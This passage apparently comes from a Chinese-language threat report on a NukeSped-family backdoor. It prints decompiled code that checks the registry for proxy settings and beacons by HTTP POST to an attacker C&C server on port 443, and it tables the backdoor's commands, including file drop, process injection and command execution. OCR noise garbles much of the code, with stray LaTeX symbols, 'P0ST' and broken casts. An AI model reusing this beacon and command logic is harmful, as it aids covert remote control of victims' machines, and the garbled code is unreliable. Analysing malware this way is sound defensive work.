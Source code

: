 strcpy_s(v8, 0x40ui64, "control");   
\*(_QWORD \*)&v8[64] $=$ "fconn";   
\*(_DWORD $^{*})8\vee8[72]=5;$   
\*(_QWORD \*)&Destination[80] $=~\mathrm{{v}}8$   
strcpy_s(v10, 0x40ui64, "payload");   
\*(_QWORD \*)&v8[80] $=$ v10; // tuid=&control=fconn&payload= \*(_QWORD \*)&v10[64] = v2;   
\*(_DWORD \*)&v10[72] = v1;   
$\vee4=$ LocalAlloc(0x40u, 0x30000ui64);   
memset(v4, 0, 0x30000ui64);   
$\vee7[\theta]~=~\theta$  

发送上线包时后门程序通过检索注册表判断当前机器是否使用代理确保上线包正常发出，上线包以P0ST请求指定443端口向攻击者C&C服务器进行发送。  

memset(v27,0, 255);   
if（（unsigned int)sub_140002AA0((_int64)v27））// 检索代理信息   
{ //\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settii $v7=v27$ $v8=3;$   
}   
else   
{ v7 = 0i64; $v8~=~\theta;$   
v9 $=$ Internet0penA(szAgent, v8,v7, 0i64,0);   
$\vee19~=~\vee9$   
if （!v9) return 1i64;   
${\tt v}11=8\theta.$   
if （ dword_14001C9D0） v11 = 443;   
$\vee12=$ InternetConnectA(v9，szServerName，v11，0i64，0i64，3u，0，0i64);// 与cc的443端口建立链接   
if（!v12） goto LABEL_26;   
$\vee13=$ 0x84080000;   
if （ dword_14001c9D0） V13 $=$ 0x84880000;   
strcpy(szVersion, "HTTP/1.1");   
Buffer $=$ v13;   
$\downarrow14=$ HttpOpenRequestA(v12, "P0ST",sz0bjectName, szVersion, 0i64, 0i64,v13, 0i64);  

攻击者返回的base64指令数据先进行base64解码处理后再使用自定义的编码进行异或解码。  

![](https://cdn-mineru.openxlab.org.cn/extract/b5227c20-eb7c-4a7e-9056-4a7c0c592478/209f19c07ef393079e5c54b3a3210e2095063d6bff10c4bf626b17a43d011468.jpg)  
图10：异或编码  

后门指令支持攻击者在受害用户机器上获取用户机器信息、落地文件、执行指定命令等操作。  

<html><body><table><tr><td>指令</td><td>行为</td></tr><tr><td>0x892</td><td>休眠</td></tr><tr><td>0x899</td><td>退出</td></tr><tr><td>0x895</td><td>重试</td></tr><tr><td>0x894</td><td>文件落地</td></tr><tr><td>0x896</td><td>模块信息获取</td></tr><tr><td>0x89C</td><td>进程注入</td></tr><tr><td>0x893</td><td>获取指定文件信息</td></tr><tr><td>0x898</td><td>执行指定命令</td></tr><tr><td>0x897</td><td>执行指定进程</td></tr></table></body></html>  

# 三、技战法变化  

与以往披露的NukeSped家族后门不同，此次发现的后门未与杀毒引擎的静态扫描做对抗，而以往发现的NukeSped家族后门则使用RC4或者是DES加密对C&C服务器列表和所使用的字符信息进行加密处理用以规避杀毒引擎的静态扫描。  

在网络行为中也抛弃了使用对称加密算法对受害机器信息进行加密，换用了自定义的异或算法加密。  

# 四、归属研判  
